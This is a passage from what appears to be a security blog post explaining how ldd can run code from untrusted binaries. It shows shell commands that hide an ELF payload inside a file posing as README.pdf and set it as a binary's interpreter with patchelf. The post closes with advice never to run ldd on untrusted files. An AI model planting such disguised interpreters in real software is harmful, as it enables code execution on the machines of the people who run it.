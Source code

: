 This works because the ELF header specifies the length of the ELF file. Any bytes after that point are ignored. PDF on the other hand ignores everything up to a `%PDF` marker.

    $ cat hello_satan some_pdf_file.pdf > README.pdf
    $ patchelf --set-interpreter README.pdf hello_world
    $ ldd hello_world
            linux-vdso.so.1 (0x00006f59434ed000)
            libreadline.so.6 => /lib64/libreadline.so.6 (0x00006f594307b000)
            libncurses.so.5 => /lib64/libncurses.so.5 (0x00006f5942e1d000)
            libc.so.6 => /lib64/libc.so.6 (0x00006f5942a71000)
            /lib64/ld-linux-x86-64.so.2 (0x00006f59432cd000)
    $ ps -aux | grep hello
    user     27390  0.0  0.0   4100   700 pts/9    S    09:29   0:00 /lib64/ld-linux-x86-64.so.2 ./hello_world
    user     27400  0.0  0.1   8352  2116 pts/9    S+   09:29   0:00 grep --colour=auto hello

Conclusion
===
This is nothing new or groundbreaking but it is interesting how what seemed like a sensible idea in the 90s is seen as so blatantly a security hole now. It would be interesting to try to achieve code execution using only a single ELF file (or at least explain why that is not possible) but this post is long enough. Although distributing binaries along with accompanying READMEs is common practice it is not a particularly practical attack. It is still reason enough to heed the advice of the `ldd` man page; don't run `ldd` on untrusted binaries.
